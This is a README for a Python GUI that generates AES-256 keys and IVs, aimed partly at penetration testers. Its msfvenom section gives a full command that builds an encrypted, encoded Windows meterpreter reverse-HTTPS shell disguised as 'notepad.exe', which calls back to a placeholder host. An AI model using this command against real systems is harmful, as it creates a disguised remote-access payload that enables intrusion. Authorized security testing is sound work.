 # AES-256 Key & IV Generator
A professional Python application for generating cryptographically secure AES-256 encryption keys and initialization vectors (IVs) with multiple output formats suitable for various applications including penetration testing tools like msfvenom.

![Python 3.6 Badge](https://img.shields.io/badge/python-3.6%252B-blue)
![MIT-License Badge](https://img.shields.io/badge/license-MIT-green)
![Screenshot](ss_aes.png)

## Features
Cryptographically Secure Generation: Uses os.urandom() for secure random number generation

## Multiple Output Formats:

Hexadecimal (ideal for msfvenom)

Base64 encoding

Escape sequences (for code implementation)

Raw bytes representation

## User-Friendly GUI: 

Intuitive interface built with Tkinter

Clipboard Integration: One-click copying of generated values

Cross-Platform Compatibility: Works on Windows, macOS, and Linux

## Installation
Clone or download this repository

Install required dependencies:

bash```
pip install -r requirements.txt```

## Usage

Run the application:

bash```
python aes_key_generator.py```

Generate new values:

Click "Generate New" to create a fresh AES-256 key and IV

Select output format:

Choose from Hex, Base64, Escape Sequences, or Raw Bytes

Copy values:

Use the "Copy Key", "Copy IV", or "Copy Both" buttons to transfer values to clipboard

## Requirements

The application requires the following dependencies (automatically installed via requirements.txt):

Python 3.6+

Tkinter (usually included with Python standard library)

## For msfvenom Usage

When using with msfvenom, select the **Hex format** and use the values with the appropriate flags:

bash```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=YOUR_IP LPORT=YOUR_PORT \
--encryption aes256 --encryption_key YOUR_KEY --encryption_iv YOUR_IV --encoder x64/xor_dynamic --iterations 5 --arch x64 --platform windows -f exe -o notepad.exe --timeout 65```

## Security Considerations

Always generate new keys and IVs for each encryption operation

Never reuse the same key/IV combination

Store keys securely using appropriate secret management solutions

This tool uses cryptographically secure random generation (os.urandom)

## Project Structure
text
aes-key-generator/
├── aes_key_generator.py  # Main application file
├── requirements.txt      # Python dependencies
└── README.md            # This file

## License

This project is licensed under the **MIT License** - see the LICENSE file for details.

## Disclaimer
This tool is intended for educational and legitimate security testing purposes only. Always ensure you have proper authorization before using encryption tools on any system.


